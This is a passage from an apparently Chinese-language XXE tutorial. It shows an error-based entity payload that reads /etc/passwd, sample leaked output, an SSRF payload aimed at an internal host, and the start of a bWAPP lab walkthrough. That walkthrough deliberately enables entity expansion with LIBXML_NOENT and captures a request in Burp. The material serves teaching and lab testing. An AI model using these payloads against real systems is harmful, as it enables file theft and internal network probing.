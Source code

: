 <p>在上述示例中，我们将获取到的数据通过get方式发送到攻击者的服务器，这样攻击者可以查看服务器接收到的请求获取到想要的数据。</p>

<p>当然，我们还可以利用报错信息来输出想要获取的数据：</p>

<pre><code class="language-plain">&lt;!ENTITY % file SYSTEM &quot;file:///etc/passwd&quot;&gt;
&lt;!ENTITY % eval &quot;&lt;!ENTITY &amp;#x25; error SYSTEM 'file:///nonexistent/%file;'&gt;&quot;&gt;
%eval;
%error;
</code></pre>

<p>在这个示例中，我们将引入了error参数，XML会去访问一个不存在的文件，导致错误的产生，并将错误信息给eval，由于文件路径中存在我们需要的数据file，这样就会导致Web应用显示出错信息，并且其中包含我们需要的数据。我们可以看一个示例输出：</p>

<pre><code class="language-plain">java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
</code></pre>

<h3 id="xxe发起ssrf攻击">XXE发起SSRF攻击</h3>

<p>SSRF攻击即为服务端请求伪造，我们可以利用XXE来实现。首先我们先来看一个示例，这样可以帮助我们理解它的攻击方式。</p>

<pre><code class="language-plain">&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM &quot;http://internal.vulnerable-website.com/&quot;&gt; ]&gt;
</code></pre>

<p>这是我们需要注入的XML代码，Web应用在解析它的时候，会向其中的链接发出请求，并且这个请求是由被攻击Web应用的服务器所发送的，这就是SSRF攻击。</p>

<p>它到底有什么作用呢？<strong>我们可以利用它来判断Web应用服务器内网地址的开启情况</strong>，只需要将链接改为服务器的内网地址，然后根据响应的内容就可以判断内网地址是否开放，这会对内网的安全产生威胁。</p>

<p>在了解完XXE的攻击方式后，让我们进入到实战部分来切身体会下XXE攻击的危害吧。</p>

<h2 id="实战演练">实战演练</h2>

<p>在实战过程中，我们选用靶场bwapp做测试，需要注意的是，我们要将bwapp靶场中的xxe-2.php文件中的内容作修改，将$xml的值改为如下：</p>

<pre><code class="language-php">$xml = simplexml_load_string($body,'SimpleXMLElement',LIBXML_NOENT);
</code></pre>

<p>然后，打开靶场我们可以看到，页面中有一个按钮 <code>Any bugs?</code>，我们点击不会有反应，这时候可以打开Burpsuite做测试，通过捕获我们获取到点击按钮会发送请求：</p>

<pre><code class="language-plain">POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 59
sec-ch-ua: &quot;Chromium&quot;;v=&quot;95&quot;, &quot;;Not A Brand&quot;;v=&quot;99&quot;
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: &quot;macOS&quot;
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close
